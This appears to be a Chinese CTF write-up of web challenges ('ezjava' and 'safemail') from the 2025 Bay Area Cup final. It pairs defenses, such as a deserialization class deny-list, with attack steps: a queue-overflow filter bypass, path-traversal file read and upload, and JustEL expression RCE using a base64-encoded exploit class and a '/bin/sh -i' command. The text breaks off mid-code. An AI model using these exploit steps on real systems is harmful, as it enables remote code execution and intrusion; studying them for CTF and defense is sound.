# 2025“湾区杯”网络安全大赛决赛（web方向）部分题解-先知社区

> **来源**: https://xz.aliyun.com/news/18907  
> **文章ID**: 18907

---

# AWDP

## web——ezjava

这题实际需要pwn和密码来配合

AdminServlet.class如下

```
package ctf.challenge;

import ctf.challenge.JniCrypto;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.ServletException;

import javax.servlet.annotation.WebServlet;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.nio.charset.StandardCharsets;
import java.util.Arrays;
import java.util.Base64;
import java.util.stream.Collectors;


public class AdminServlet extends HttpServlet {
    private static final byte[] SECRET_KEY = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa".getBytes(StandardCharsets.UTF_8);

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        resp.getWriter().println(Arrays.toString(SECRET_KEY));
    }

    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        String body = req.getReader().lines().collect(Collectors.joining(System.lineSeparator()));
        if (body.isEmpty()) {
            resp.setStatus(400);
            resp.getWriter().write("Request body is empty.");
            return;
        }
        try {
            byte[] encryptedData = Base64.getDecoder().decode(body);
            byte[] decryptedData = JniCrypto.decrypt(encryptedData, SECRET_KEY);
            if (decryptedData == null || decryptedData.length == 0) {
                resp.setStatus(500);
                resp.getWriter().write("Decryption failed. Invalid data or key?");
                return;
            }
            ByteArrayInputStream bais = new ByteArrayInputStream(decryptedData);
            ObjectInputStream ois = new ObjectInputStream(bais);
            Object obj = ois.readObject();
            ois.close();
            resp.setStatus(200);
            resp.getWriter().write("Object deserialized: " + obj.toString());
        } catch (Exception e) {
            resp.setStatus(400);
            resp.getWriter().write("Error processing request: " + e.getMessage());
        }
    }
}

```

‍

get请求访问之后我们可以拿到secret\_key

然后post请求会进行base64解密，然后再把结果拿去JniCrypto.decrypt再解密一次。

最后才能打反序列化。

跟进JniCrypto.decrypt  
代码如下：



那么其实就是为了加载libcrypt.so文件



看了一下依赖，高版本jdk17，那么估计就是打最近新爆出的一条链子

### 防御

新建一个object类，加个黑名单即可绕过。

最后的黑名单类

```
/**
 * @className MyObjectInputStream
 * @Author shushu
 * @Data 2025/9/16
 **/
package ctf.challenge;

import java.io.*;

public class MyObjectInputStream extends ObjectInputStream {
    public MyObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        String[] denyClasses = {
                "java.net.InetAddress",
                "sun.rmi.transport.tcp.TCPTransport",
                "sun.rmi.transport.tcp.TCPEndpoint",
                "sun.rmi.transport.LiveRef",
                "sun.rmi.server.UnicastServerRef",
                "sun.rmi.server.UnicastRemoteObject",
                "org.apache.commons.collections.map.TransformedMap",
                "org.apache.commons.collections.functors.ChainedTransformer",
                "org.apache.commons.collections.functors.InstantiateTransformer",
                "org.apache.commons.collections.map.LazyMap",
                "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
                "com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter",
                "org.apache.commons.collections.functors.ConstantTransformer",
                "org.apache.commons.collections.functors.MapTransformer",
                "org.apache.commons.collections.functors.FactoryTransformer",
                "org.apache.commons.collections.functors.InstantiateFactory",
                "org.apache.commons.collections.keyvalue.TiedMapEntry",
                "javax.management.BadAttributeValueExpException",
                "org.apache.commons.collections.map.DefaultedMap",
                "org.apache.commons.collections.bag.TreeBag",
                "org.apache.commons.collections.comparators.TransformingComparator",
                "org.apache.commons.collections.functors.TransformerClosure",
                "java.util.Hashtable", "java.util.HashMap",
                "java.net.URL",
                "com.sun.rowset.JdbcRowSetImpl",
                "java.security.SignedObject",
                "java.lang.Runtime", 
                "java.lang.ProcessBuilder", 
                "org.springframework.aop.aspectj.AspectJAroundAdvice"};
        for (String denyClass : denyClasses) {
            if (className.startsWith(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }
        return super.resolveClass(desc);
    }
}

```

‍

### 攻击（思路）

‍

参考文章

```
https://fushuling.com/index.php/2025/08/21/%e9%ab%98%e7%89%88%e6%9c%acjdk%e4%b8%8b%e7%9a%84spring%e5%8e%9f%e7%94%9f%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e9%93%be/

http://101.36.122.13:4000/2025/08/31/%E9%AB%98%E7%89%88%E6%9C%ACJDKSpring%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE/

```

感觉是打最近新出的jdk17+SpringAOP的那条链子

但是关键的是他有个解密函数，需要找到对应的加密函数


分析so文件，看到有个解密函数

找逆向手分析一下变种的AES才能得到加密算法加密payload

得到加密函数之后

大概率是要打一个jetty的内存马才能获得回显。比赛最后也没能做出来。

## web——safemail

利用jar-analyzer-5.1-windows-full工具扫到有个命令执行，

tmall/controller/admin/ConfigController类的代码如下

```
package tmall.controller.admin;

import java.util.Collections;
import java.util.List;
import java.util.Map;
import java.util.concurrent.ArrayBlockingQueue;
import java.util.concurrent.BlockingQueue;
import java.util.concurrent.ExecutorService;
import java.util.concurrent.Executors;
import java.util.regex.Pattern;
import javax.servlet.http.HttpSession;
import org.apache.jasper.compiler.TagConstants;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.servlet.tags.form.FormTag;
import tmall.annotation.Auth;
import tmall.pojo.Config;
import tmall.pojo.extension.UserExtension;
import tmall.util.SystemUtil;

@RequestMapping({"/admin/config"})
@Controller
/* loaded from: app.jar:BOOT-INF/classes/tmall/controller/admin/ConfigController.class */
public class ConfigController extends AdminBaseController {
    private static final int MAX_QUEUE_SIZE = 100;
    private static final BlockingQueue<String> commandQueue = new ArrayBlockingQueue(100);
    private final ExecutorService processor = Executors.newFixedThreadPool(2);
    private static final String ALLOWED_REGEX = "^(ping\s+((25[0-5]|2[0-4]\d|1\d{2}|[1-9]?\d)(\.(25[0-5]|2[0-4]\d|1\d{2}|[1-9]?\d)){3})|hostname|whoami)$";

    public ConfigController() {
        startQueueProcessors();
    }

    private void startQueueProcessors() {
        for (int i = 0; i < 2; i++) {
            this.processor.submit(() -> {
                while (!Thread.currentThread().isInterrupted()) {
                    try {
                        String command = commandQueue.take();
                        processCommand(command);
                    } catch (InterruptedException e) {
                        Thread.currentThread().interrupt();
                    }
                }
            });
        }
    }

    private void handleError(String command) {
        try {
            if (command.startsWith("ping")) {
                command = command + " -c 2";
            }
            SystemUtil.runCmd(command);
        } catch (Exception e) {
            System.err.println("Error handling failed: " + e.getMessage());
        }
    }

    private void processCommand(String command) {
        try {
            if (isSafeCommand(command)) {
                System.out.println("[!] Blocked potentially dangerous command: " + command);
                return;
            }
            if (command.startsWith("ping")) {
                command = command + " -c 2";
            }
            SystemUtil.runCmd(command);
        } catch (Exception e) {
            System.err.println("Error processing command: " + e.getMessage());
        }
    }

    private boolean isSafeCommand(String command) {
        return !Pattern.matches(ALLOWED_REGEX, command);
    }

    @RequestMapping({"edit"})
    @Auth(UserExtension.Group.admin)
    public String edit(Model model) throws Exception {
        List<Config> configs = this.configService.list(new Object[0]);
        model.addAttribute("configs", configs);
        return "admin/editConfig";
    }

    @RequestMapping({"update"})
    public String update(Integer[] id, String[] value, HttpSession session) throws Exception {
        this.configService.update(id, value, "value");
        session.removeAttribute("productImgDir");
        return "redirect:edit";
    }

    @RequestMapping({"tools"})
    @Auth(UserExtension.Group.admin)
    public String tools(Model model) throws Exception {
        this.configService.list(new Object[0]);
        return "admin/tools";
    }

    @PostMapping({"runTool"})
    @ResponseBody
    public Map<String, Object> runCommand(@RequestBody Map<String, String> body) {
        String command = body.get(FormTag.DEFAULT_COMMAND_NAME);
        try {
            commandQueue.add(command);
            System.out.println(commandQueue.size());
        } catch (Exception e) {
            handleError(command);
        }
        return Collections.singletonMap(TagConstants.OUTPUT_ACTION, "批量处理开发中，暂不支持查看");
    }
}

```

出现问题的正是handleError(command);

发现没有过滤能够直接命令执行，而防御也很简单

### 防御

```
            
    @PostMapping({"runTool"})
    @ResponseBody
    public Map<String, Object> runCommand(@RequestBody Map<String, String> body) {
        String command = body.get(FormTag.DEFAULT_COMMAND_NAME);
        try {
            commandQueue.add(command);
            System.out.println(commandQueue.size());
        } catch (Exception e) {
            if (isSafeCommand(command)) {
                System.out.println("[!] Blocked potentially dangerous command: " + command);
                return;
            }
            if (command.startsWith("ping")) {
                command = command + " -c 2";
            }
            handleError(command);
        }
        return Collections.singletonMap(TagConstants.OUTPUT_ACTION, "批量处理开发中，暂不支持查看");
    }
```

就是如果没有ai没有其他命令waf的笔记的话，直接复制processCommand函数里面的代码即可

‍

### 攻击一、并发线程绕过

再看到攻击，首先需要账号密码登陆admin admin

如果细心审计上面的代码你会发现要让代码执行到handleError(command)，需要触发commandQueue.add(command)方法抛出异常。

由于ArrayBlockingQueue的add()方法在队列已满时会抛出IllegalStateException（"Queue full"）。

那么最简单的方法就是利用bp并发发包，设置资源池为100左右。

具体操作就是intruder模块设置如下



命令为



然后选择开始攻击

同时重放器为



即可弹出计算器

‍



那么实际上没有回显，我们可以利用文件读取，来获得回显的结果

admin/category/getImg?path=../../../../../../../../../../../../../../../../../../tmp/1



但是呢，当我打远程的时候，并发数量太多，会导致了服务环境直接崩掉。

据赛后朋友说是把服务打崩之后，服务过段时间会重启，此时只要重新访问服务，读取文件即可看到回显。

‍

### 攻击二、just-el表达式命令执行

#### 注册plugins.txt

在审计的时候还发现一个点，在/addCart路由下面有这样一段代码

```

@RequestMapping({"addCart"})
    public String addCart(Integer pid, String num, @RequestParam(name = "operate", required = false) String operate, Model model, HttpSession session) throws Exception {
        Product product = (Product) this.productService.get(pid.intValue());
        User user = (User) session.getAttribute(ClassicConstants.USER_MDC_KEY);
        CartItem cartItem = (CartItem) this.cartItemService.getOne("uid", user.getId(), "pid", product.getId());
        Boolean isInDB = Boolean.valueOf(cartItem != null);
        if (operate == null) {
            operate = BeanUtil.PREFIX_ADDER;
        }
        if (cartItem == null) {
            cartItem = new CartItem();
            cartItem.setProduct(product);
            cartItem.setUser(user);
            cartItem.setNumber(0);
        }
        PluginConfig.getPluginContext();
        String expr = String.format("%s("%s", "%s")", operate, num, cartItem.getNumber());
        String num2 = (String) JustEL.runEval(expr, PluginConfig.getPluginContext());
        cartItem.setNumber(Integer.valueOf(num2));
        cartItem.setSum(product.getNowPrice().multiply(new BigDecimal(num2)));
        if (isInDB.booleanValue()) {
            this.cartItemService.update(cartItem);
        } else {
            this.cartItemService.add(cartItem);
        }
        model.addAttribute("msg", "success");
        return "msg";
    }
```

JustEL.runEval表达式利用，可以rce。

里面的参数expr可控，那么我们可以研究一下PluginConfig.getPluginContext

跟进看代码，具体如下

```
public class PluginConfig {
    private static List<String> plugins;

    @Value("${plugin.file}")
    private String pluginFile;
    private static JustMapContext pluginsContext;

    @Bean
    public ApplicationRunner loadPlugins() {
        return args -> {
            plugins = loadPluginsList();
            pluginsContext = registerPlugins(plugins);
        };
    }

    public static List<String> getPlugins() {
        try {
            plugins = Files.readAllLines(Paths.get("/data/plugins.txt", new String[0]));
            for (String pluginName : plugins) {
                try {
                    pluginsContext.putExtendFunc((ExtendFunctionExpr) newPluginInstance(pluginName));
                } catch (Exception e) {
                }
            }
            return plugins;
        } catch (IOException e2) {
            throw new RuntimeException(e2);
        }
    }

    public static JustMapContext getPluginContext() {
        return pluginsContext;
    }

    public List<String> loadPluginsList() {
        try {
            return Files.readAllLines(Paths.get(this.pluginFile, new String[0]));
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    public static Object newPluginInstance(String className) {
        try {
            Class<?> clazz = Class.forName(className);
            return clazz.getDeclaredConstructor(new Class[0]).newInstance(new Object[0]);
        } catch (Exception var2) {
            throw new RuntimeException("failed: " + className, var2);
        }
    }

    public JustMapContext registerPlugins(List<String> plugins2) {
        JustMapContext context = new JustMapContext();
        for (String pluginName : plugins2) {
            try {
                context.putExtendFunc((ExtendFunctionExpr) newPluginInstance(pluginName));
            } catch (Exception e) {
            }
        }
        return context;
    }
}
```

那么我们可以知道getPluginContext是获取整个插件的上下文

getPlugins则是将/data/plugins.txt文件里面的类加载到整个插件的上下文，即注册插件。

触发getPlugins函数如下，访问/admin/plugin/test或者/admin/plugin/updatePlugins

```
@RequestMapping({"/admin/plugin"})
@Controller
/* loaded from: app.jar:BOOT-INF/classes/tmall/controller/admin/PluginController.class */
public class PluginController extends AdminBaseController {

    @Value("${plugin.file}")
    private String pluginFile;

    @RequestMapping({"plugins"})
    @Auth(UserExtension.Group.admin)
    public String plugins(Model model) throws Exception {
        return "admin/plugins";
    }

    @RequestMapping({"updatePlugins"})
    @ResponseBody
    public void updateRegisterPluginsList() {
        PluginConfig.getPlugins();
    }

    @RequestMapping({"test"})
    @ResponseBody
    public List<String> test() {
        return PluginConfig.getPlugins();
    }
}

```

那么关键是我们如何去修改/data/plugins.txt里面的内容。

在这个/admin/config/edit路由逻辑如下

```
    @RequestMapping({"edit"})
    @Auth(UserExtension.Group.admin)
    public String edit(Model model) throws Exception {
        List<Config> configs = this.configService.list(new Object[0]);
        model.addAttribute("configs", configs);
        return "admin/editConfig";
    }
```

它可以修改configService里面的配置



而默认情况下configService是以键值对的形式存在的。

还有一处/admin/category/add，文件上传的地方。



获取存储文件的路径采用了拼接的形式，可以进行绕过。



那么savaImg获取的是config中path\_category\_img这个键的值，原本是pictures/category/

我们可以通过/admin/config/edit路由将其修改为../../../../../../../data

然后再进行上传一个plugins.txt文件，此时利用了路径穿越的漏洞，导致了存储的地方为/data/plugins.txt

#### HotInstallPlugin研究

根据这段代码在util/webplugins下有个HotInstallPlugin类



逻辑如下



可以看到他是继承了`com.lfkdsk.justel.ast.function.ExtendFunctionExpr`​

并实现了funcName()方法，返回值为"install"，这意味着

1、当 EL 表达式中出现`install(...)`形式的调用时，JustEL 会自动关联到`HotInstallPlugin`类的`call()`方法。

2、`PluginConfig.getPluginContext()`上下文环境中，已经将`HotInstallPlugin`注册为`"install"`函数的实现类，因此引擎能找到对应的处理逻辑。

也就是说

```
        String expr = String.format("%s("%s", "%s")", operate, num, cartItem.getNumber());
        String num2 = (String) JustEL.runEval(expr, PluginConfig.getPluginContext());
```

operate传入install

num传入base64

```
base64 -w 0 Exploit3.class
输出结果：yv66vgAAADQAIQoACAASCgATABQIABUKABMAFgcAFwoABQAYBwAZBwAaAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEADVN0YWNrTWFwVGFibGUHABkHABcBAApTb3VyY2VGaWxlAQANRXhwbG9pdDMuamF2YQwACQAKBwAbDAAcAB0BAARjYWxjDAAeAB8BABNqYXZhL2xhbmcvRXhjZXB0aW9uDAAgAAoBAAhFeHBsb2l0MwEAEGphdmEvbGFuZy9PYmplY3QBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAPcHJpbnRTdGFja1RyYWNlACEABwAIAAAAAAABAAEACQAKAAEACwAAAGAAAgACAAAAFiq3AAG4AAISA7YABFenAAhMK7YABrEAAQAEAA0AEAAFAAIADAAAABoABgAAAAMABAAFAA0ACAAQAAYAEQAHABUACQANAAAAEAAC/wAQAAEHAA4AAQcADwQAAQAQAAAAAgAR
```

Exploit3.java内容

```
public class Exploit3 {

    public Exploit3() {
        try {
            String[] exp = {"/bin/sh","-i","whoami > /tmp/1"};
